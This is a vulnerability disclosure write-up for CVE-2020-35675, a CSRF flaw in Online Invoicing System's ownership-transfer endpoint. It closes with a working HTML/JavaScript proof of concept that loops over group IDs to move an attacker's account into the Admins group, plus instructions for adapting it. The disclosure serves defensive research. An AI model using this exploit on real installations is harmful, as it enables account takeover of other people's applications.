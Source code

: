 ```yaml
---
layout: post
title: CVE-2020-35675
tags: [CVE, PHP, CSRF]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.0
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Cross Site Request Forgery
CVE ID: CVE-2020-35675
```

# Introduction

Online Invoicing System offers a functionality which allows an administrator to move the records of members across groups. The endpoint (admin/pageTransferOwnership.php), which is responsible for moving members across groups lacks CSRF protection thus resulting in an attacker being able to escalate their privileges to Administrator and effectively taking over the application by having the application's admin browse to an attacker controlled page which contains the specially crafted proof of concept.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

When browsing to `admin/pageTransferOwnership.php` with a user that has administrative privileges, the "Batch Transer of Ownership" functionality will be made available:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/batch.png)

As stated by the application, this functionality allows an administrator to:
> The batch transfer wizard allows you to transfer data records of one or all members of a group (the source group) to a member of another group (the destination member of the destination group)

After selecting the required dropdowns, an example of a successful request will look as follows:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/request.png)

Let's break down the above request to make it easier to understand:

~~~
sourceGroupID = The ID of the group you would like to be moving records from. 
sourceMemberID = The username of the member you would like to move records for. Using -1 means that all user records will be moved.
destinationGroupID = The ID of the group you would like to move records to.
moveMembers = If 1 that means it will move the member and their data to the group and not overrwrite any existing records in the destination group.
~~~

Something else you might notice in the request is that there appears to be no CSRF protecton such is in the form of a token (whether it be a parameter or cookie). Furthermore looking closely, we notice that the application does not utilize `Same Site Cookies` meaning this this endpoint is most likely vulnerable to Cross-Site Request Forgery.

However as shown in the request above in order for succesful exploitation to occur, an attacker would need to know the values of the following parameters:

~~~
sourceGroupID
destinationGroupID
~~~

After enumerating the application, it appears there is no concrete way for an attacker to retrieve the Group ID in which they are part of. Furthermore, it appears there is no way for the attacker to retrieve the Group ID of the Administrator's group either. While normally this could be seen as the nail in the coffin, there is a way around this.

An astute attacker would observe that on a fresh install, there are two groups which are created automatically with the following ID's:

~~~
Anonymous - 1
Admins - 2
~~~

Meaning that anytime a new custom group will be created, it will start from ID 3 and increment from there. Finally, the application does not allow the administrator to delete the pre-created groups meaning the ID of the Admin group will always result in 2.

With this in mind, an attacker is now aware of the `destinationGroupID` and will only need the `sourceGroupID` in which they are apart of in order to transfer their account to the Admin's group therefore granting themselves administrator privileges.

As mentioned earlier, this value will start from 3 and increment based on the number of custom groups the application has.

Since the endpoint is using a `GET` request to pass the information to the server, the following HTML snippet can be used:

~~~javascript
<img src="http://localhost/admin/pageTransferOwnership.php?sourceGroupID=3&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1"></img>
~~~

Upon the application's administrator visiting a page which contains the above HTML, their browser will try to load the image by requesting the URL above. However instead of loading the image, the browser will follow the URL and trigger the vulnerability. The proof of concept above will attempt to move the records of a member whose username attacker from Group 3 to Group 2.

As mentioned before, the attacker is unaware of the group in which their user lives in. Using the snippet above is effectively playing Russian Roulette as the attacker will have to keep guessing their group. In order to have a good chance of this working, an attacker will need to be extremely lucky.

However instead of relying on luck, the attacker can utilize Javascript to leverage the following proof of concept:

~~~javascript
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
~~~

The above Javascript snippet will result in 10 iterations (3 -> 13) with each iteration creating a new image tag which sets the value of the `sourceGroupId` parameter to the current value of `i` in the iteration. In the end this will result in 10 image tags with each having a different value for the `sourceGroupID` parameter. In this example, 3-13 was used however in a real life scenario an attacker can create as many iterations as they would like. The reason the range starts at 3 is because it was confirmed earlier that any new custom groups start at that index.

Upon the application's administrator visiting this proof of concept, we can confirm that the requests are succesfully executing by taking a look at the browser's DevTools Network Tab:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-csrf/network.png)

As such, an attacker is able to host a specially crafted proof of concept that upon being visted by the application's administrator will move the attacker's user into the Admin's user group therefore effectively granting the attacker administrative privileges and allowing them to takeover the application.

# Proof of Concept

~~~html
<html>
<body>
<script>
var i;
for (i = 3; i < 13; i++) {
    var x = document.createElement("IMG");
    x.setAttribute("src", "http://localhost/admin/pageTransferOwnership.php?sourceGroupID="+i+"&sourceMemberID=attacker&destinationGroupID=2&destinationMemberID=&moveMembers=1&beginTransfer=1");
} 
</script>
</body>
</html>
~~~

**Replace above**:
- Range to suit your needs
- URL pointing to the vulnerable application
- Value of sourceMemberID with your username
